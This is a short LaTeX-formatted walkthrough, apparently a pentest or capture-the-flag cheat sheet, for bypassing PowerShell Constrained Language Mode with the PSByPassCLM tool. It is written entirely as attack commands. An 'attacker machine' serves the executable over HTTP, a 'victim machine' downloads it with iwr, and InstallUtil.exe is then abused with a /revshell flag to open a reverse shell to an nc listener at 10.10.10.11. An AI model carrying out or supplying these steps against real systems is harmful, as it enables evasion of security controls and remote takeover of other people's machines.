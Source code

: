 \documentclass{assets/ipesethesis}
\newenvironment{Shaded}{\begin{snugshade}}{\end{snugshade}}
\newcommand{\BuiltInTok}[1]{#1}
\newcommand{\ExtensionTok}[1]{#1}
\newcommand{\FunctionTok}[1]{\textcolor[rgb]{0.00,0.00,0.00}{#1}}
\newcommand{\NormalTok}[1]{#1}
\begin{document}
\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  clone the PSByPassCLM repository

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{git}\NormalTok{ clone https://github.com/padovah4ck/PSByPassCLM}
\end{Highlighting}
\end{Shaded}
\item
  Transfer PSByPassCLM.exe to the victim machine

  \begin{itemize}
  \item
    on the attacker machine

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{cd}\NormalTok{ PSByPassCLM/PSByPassCLM/PSBypassCLM/bin/x64/Debug}
\ExtensionTok{python}\NormalTok{ -m http.server 80}
\end{Highlighting}
\end{Shaded}
  \item
    on the victim machine

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{iwr}\NormalTok{ -uri http://10.}\FunctionTok{10}\NormalTok{.}\FunctionTok{10}\NormalTok{.}\FunctionTok{11}\NormalTok{/PsByPassCLM.}\FunctionTok{exe}\NormalTok{ -OutFile c:\textbackslash{}temp\textbackslash{}psby.}\FunctionTok{exe}
\end{Highlighting}
\end{Shaded}
  \end{itemize}
\item
  Create the reverse connection

  \begin{itemize}
  \item
    on the attacker machine

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{rlwrap}\NormalTok{ nc -nlvp 443}
\end{Highlighting}
\end{Shaded}
  \item
    on the victim machine

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{C:\textbackslash{}Windows\textbackslash{}Microsoft.}\FunctionTok{NET}\NormalTok{\textbackslash{}Framework64\textbackslash{}v4.}\FunctionTok{0}\NormalTok{.}\FunctionTok{30319}\NormalTok{\textbackslash{}InstallUtil.}\FunctionTok{exe}\NormalTok{ /logfile= /LogToConsole=true /revshell=true /rhost=10.}\FunctionTok{10}\NormalTok{.}\FunctionTok{10}\NormalTok{.}\FunctionTok{11}\NormalTok{ /rport=443 /U c:\textbackslash{}temp\textbackslash{}psby.}\FunctionTok{exe}
\end{Highlighting}
\end{Shaded}
  \end{itemize}
\end{enumerate}
\end{document}
